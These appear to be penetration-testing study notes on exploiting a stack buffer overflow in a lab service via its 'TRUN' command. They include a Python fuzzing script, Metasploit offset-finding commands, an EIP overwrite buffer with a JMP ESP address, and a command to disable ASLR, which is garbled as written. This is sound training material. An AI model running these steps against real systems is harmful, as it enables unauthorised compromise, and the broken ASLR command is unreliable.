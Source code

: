 # Buffer Overflow | Buf Exploitation

![](<../.gitbook/assets/image (2).png>)

![](<../.gitbook/assets/image (3).png>)

![](<../.gitbook/assets/image (4).png>)

{% embed url="https://tcm-sec.com/buffer-overflows-made-easy/" %}

{% embed url="https://github.com/gh0x0st/Buffer_Overflow" %}

****

### FUZZING

```
    #!/usr/bin/python
    
    import sys, socket 
    from time import sleep
    
    buffer = "A" * 100
    
    while True: 
        try: 
            payload = "TRUN /.:/" + buffer
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(('192.168.1.35',9999))
            print ("[+] Sending the payload...\n" + str(len(buffer)))
            s.send((payload.encode()))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
        except:
            print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
            sys.exit()
```

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 3000\
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -l 3000 -q 386F4337 \
where q is EIP value -> we will get offset\
OFFSET = 2003\
buffer = "A" \* 2003 + "B" \* 4\
EIP will be overwritten with 424242.\
\
badchars\
buffer = "A" \* 2003 + "B" \* 4 + badchars\
find out of place chars\
\
0x625011af JMP ESP - FFE4\
buffer = "A" \* 2003 + "\xaf\x11\x50\x62" + overflow

### ASLR (BuF Attack)

ps -aux | grep {process} _pid will be obtained_

cat /proc/2678/maps

echo 0 > cat /proc/sys/kernel/randomize\_va\_space \
Configurations : \
0 - Static \
1 - Dynamic \
2 - Smartly Dynamic





